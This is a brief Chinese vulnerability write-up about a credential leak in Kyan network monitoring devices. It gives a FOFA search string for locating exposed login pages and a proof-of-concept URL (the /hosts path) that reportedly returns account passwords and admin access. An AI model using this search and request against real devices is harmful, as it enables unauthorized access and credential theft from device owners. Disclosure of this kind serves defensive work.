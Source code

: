# Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

```
Kyan
```

## FOFA

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](./images/202202140926162.png)

POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```

![](./images/202202140927595.png)

成功获得账号密码



